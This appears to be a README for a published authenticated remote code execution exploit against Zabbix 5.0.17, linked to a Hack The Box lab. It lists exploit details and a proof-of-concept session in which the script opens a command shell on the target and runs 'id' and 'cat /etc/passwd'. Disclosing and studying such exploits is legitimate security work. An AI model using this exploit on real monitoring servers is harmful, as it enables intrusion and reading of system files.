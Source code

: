 # Zabbix 5.0.17 -  Remote Code Execution (Authenticated) 
Zabbix is an open-source software tool to monitor IT infrastructure such as networks, servers, virtual machines, and cloud services. Zabbix collects and displays basic metrics. 

## Exploit Infos:
Finder: Hussien Misbah <br>
Date: 09.03.2022 <br>
Affected Version: 5.0.17 <br>
Build Time: 18.10.2021 <br>
Risk: High <br>

### About exploit :
- This exploit is tested against Zabbix 5.0.17 only
- The account used is the Administrator account 

---

# Proof of Concept 
```
$ ./exploit.py
Usage: ./expoit.py <target url> <username> <password>
Example: ./exploit.py http://example.com Administrator Password123

$ ./exploit.py http://127.0.0.1 Administrator SavePassword321
[*] Get hostId: 10084
[*] Get sid: 425f48afe7a6c98f
[*] Edit item successfully
cmd> id
uid=110(zabbix) gid=118(zabbix) groups=118(zabbix)

cmd> cat /etc/passwd
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
<SNIP>
Debian-snmp:x:111:119::/var/lib/snmp:/bin/false
mysql:x:112:120:MySQL Server,,,:/nonexistent:/bin/false

cmd> exit
Bye

```

---

### Links:
Hussien Misbah:
* https://github.com/HussienMisbah/tools/tree/master/Zabbix_exploit
* https://www.exploit-db.com/exploits/50816

Hack The Box:
* https://app.hackthebox.com/machines/Shibboleth
* https://0xdf.gitlab.io/2022/04/02/htb-shibboleth.html

